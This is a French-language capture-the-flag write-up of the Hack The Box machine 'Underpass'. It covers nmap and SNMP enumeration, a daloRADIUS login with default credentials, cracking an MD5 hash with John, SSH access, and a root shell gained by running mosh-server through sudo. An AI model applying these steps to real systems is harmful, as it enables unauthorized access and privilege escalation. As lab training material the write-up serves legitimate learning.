





# Underpass (HTB - Active - Easy)
**Date :** 07/05/2025  
**Catégorie :** SNMP Enum, Web/Docker Recon, Password Cracking, Sudo Abuse  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap - TCP

```bash
nmap -sC -sV -oN nmap_tcp.txt 10.10.11.XXX
```

Résultats :
22/tcp - OpenSSH


80/tcp - Apache httpd (default Apache page)


Pas de contenu exploitable sur le port 80.

## Nmap - UDP
```bash
nmap -sU --top-ports 100 -oN nmap_udp.txt 10.10.11.XXX
```
Résultat :
161/udp - SNMP


## Enum SNMP
```bash
snmp-check 10.10.11.XXX
```

On récupère des informations intéressantes, notamment :
Un nom d’utilisateur


Une adresse e-mail


Une référence au service daloRADIUS


## Recherche sur daloRADIUS
Recherche Google + GitHub → on trouve la documentation et des fichiers .yml/Dockerfile expliquant les chemins utilisés.


### Chemin intéressant découvert :
```bash
/var/www/daloradius
```

On découvre également une URL potentielle :

http://10.10.11.XXX/daloradius/app/operators/login.php

### Bruteforce / Credentials Discovery
Tentative basique d’identifiants sur la page de login → Succès avec :
administrator:radius

Une fois connecté, on accède à une interface d’administration listant des utilisateurs.
On y trouve un username + password hash (MD5)


## Crack du mot de passe
Hash récupéré → crack via John the Ripper :
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Le mot de passe en clair est découvert.
SSH Access

## Connexion SSH avec les identifiants récupérés → accès utilisateur.
```bash
ssh user@10.10.11.XXX
```

user.txt accessible.
Privilege Escalation
## Check des permissions sudo :
```bash
sudo -l
```
On découvre que l’utilisateur peut exécuter :
```bash
/usr/bin/mosh-server
```

## Exploitation via mosh-server
Utilisation de mosh avec le binaire mosh-server en sudo :
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```
Cela démarre une session mosh en root.
Une fois dans le shell :
```bash
cat /root/root.txt
```

## 🛠️ Résumé des étapes

| Étape                | Technique                                  |
|----------------------|--------------------------------------------|
| Initial Access       | SNMP enum → découverte de daloRADIUS       |
| Credential Access    | Login admin par défaut + hash MD5 crack    |
| SSH Access           | Identifiants récupérés                     |
| Privilege Escalation | `sudo mosh-server` abuse                   |


